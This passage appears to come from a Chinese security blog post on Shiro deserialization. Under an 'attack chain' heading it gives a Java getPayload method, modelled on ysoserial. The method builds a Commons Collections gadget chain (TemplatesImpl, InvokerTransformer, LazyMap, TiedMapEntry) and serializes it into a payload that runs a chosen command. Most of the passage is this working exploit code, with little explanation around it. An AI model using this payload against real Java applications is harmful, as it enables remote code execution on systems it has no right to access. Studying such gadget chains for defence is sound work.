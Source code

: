 
#### 构造攻击链

然后写getPayload方法

也可以参照ysoserial写

```java
    public byte[] getPayload(String command) throws Exception {
        TemplatesImpl templatesImpl = createTemplatesImpl(command);

        //getClass方法占位，之后换成newTransformer
        Transformer transformer = new InvokerTransformer("getClass", null, null);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformer);

        TiedMapEntry tme = new TiedMapEntry(outerMap, templatesImpl);

        Map finalMap = new HashMap();
        finalMap.put(tme, "valuevalue");

        outerMap.clear();
        setFieldValue(transformer, "iMethodName", "newTransformer");
      
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(finalMap);
        oos.close();

        return barr.toByteArray();
    }
```

![image.png](https://assets.b3logfile.com/siyuan/1642857713240/assets/image-20220406022837-asevmym.png)

# 参考

[http://xiashang.xyz/2020/09/03/Shiro%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E7%AC%94%E8%AE%B0%E4%B8%80%EF%BC%88%E5%8E%9F%E7%90%86%E7%AF%87%EF%BC%89/#%E8%A7%A3%E5%AF%86%E8%BF%87%E7%A8%8B](http://xiashang.xyz/2020/09/03/Shiro%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E7%AC%94%E8%AE%B0%E4%B8%80%EF%BC%88%E5%8E%9F%E7%90%86%E7%AF%87%EF%BC%89/#%E8%A7%A3%E5%AF%86%E8%BF%87%E7%A8%8B)